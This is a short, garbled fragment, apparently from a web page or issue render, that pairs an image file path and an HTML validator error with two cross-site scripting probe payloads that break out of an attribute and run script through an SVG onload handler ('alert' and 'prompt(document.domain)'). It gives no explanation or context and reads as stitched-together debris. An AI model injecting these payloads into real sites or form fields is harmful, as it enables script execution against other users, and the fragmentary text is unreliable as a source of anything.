 == asd //"><svg/onload=alert('test')==">

Unknown end tag for &lt;/h2&gt;


"><svg/onload=prompt(document.domain);/>